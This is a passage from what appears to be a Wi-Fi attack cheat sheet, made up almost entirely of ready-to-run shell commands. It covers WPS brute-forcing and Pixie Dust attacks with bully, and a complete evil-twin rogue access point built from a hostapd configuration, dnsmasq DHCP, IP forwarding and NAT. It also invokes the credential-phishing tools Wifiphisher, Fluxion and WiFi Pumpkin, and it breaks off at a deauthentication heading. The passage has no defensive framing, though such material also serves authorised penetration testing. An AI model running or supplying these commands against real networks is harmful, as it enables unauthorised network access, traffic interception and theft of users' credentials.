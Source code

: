 #### Bully

```bash
# WPS attack with bully
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6

# Pixie Dust with bully
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -d -v 3
```

### 5. Evil Twin / Rogue AP

#### Create Fake AP

```bash
# hostapd configuration (hostapd.conf)
interface=wlan0
driver=nl80211
ssid=FreeWiFi
channel=6
hw_mode=g

# Start hostapd
sudo hostapd hostapd.conf

# Configure DHCP (dnsmasq.conf)
interface=wlan0
dhcp-range=192.168.1.10,192.168.1.100,12h

# Start dnsmasq
sudo dnsmasq -C dnsmasq.conf

# Enable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=1

# NAT configuration
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

#### Automated Tools

```bash
# Wifiphisher
sudo wifiphisher -aI wlan0 -eI eth0

# Fluxion
sudo ./fluxion.sh

# WiFi Pumpkin
sudo wifi-pumpkin
```

### 6. Deauthentication Attack
